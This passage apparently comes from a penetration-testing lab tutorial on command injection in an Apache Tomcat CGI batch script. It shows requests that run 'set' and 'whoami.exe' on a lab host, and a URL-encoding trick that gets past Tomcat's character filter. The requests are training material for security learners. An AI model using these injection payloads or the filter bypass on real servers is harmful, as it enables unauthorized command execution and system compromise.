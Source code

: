 Retrieve a list of environmental variables by calling the `set` command:

Code: http

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:

Code: http

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload.

Code: http

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```